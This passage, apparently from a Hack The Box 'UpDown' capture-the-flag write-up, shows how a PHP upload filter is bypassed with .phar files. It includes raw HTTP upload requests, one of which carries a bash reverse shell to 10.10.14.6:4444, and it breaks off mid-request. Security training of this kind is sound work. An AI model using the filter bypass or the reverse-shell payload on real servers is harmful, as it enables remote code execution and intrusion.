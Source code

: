 ```http
```

![Persisted File](/assets/images/2023/01/UpDown/PersitedFile.png "Persited File")

The code was blocking PHP files. But PHP [supports many extensions](https://book.hacktricks.xyz/pentesting-web/file-upload#file-upload-general-methodology). I found out I could upload `.phar` files and they were executed. 

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 384
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
echo 'RCE<br />';
?>
https://app.hackthebox.com
-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="check"

Check
-----------------------------27067171744469957932680288557--
```

![RCE](/assets/images/2023/01/UpDown/RCE.png "RCE")

At this point, I thought I had an easy reverse shell.

```http
POST / HTTP/1.1
Host: dev.siteisup.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------27067171744469957932680288557
Content-Length: 428
Origin: http://dev.siteisup.htb
Connection: close
Referer: http://dev.siteisup.htb/
Upgrade-Insecure-Requests: 1
Special-Dev: only4dev

-----------------------------27067171744469957932680288557
Content-Disposition: form-data; name="file"; filename="test.phar"
Content-Type: text/plain

<?php
`bash -c 'bash -i >& /dev/tcp/10.10.14.6/4444 0>&1'`;
```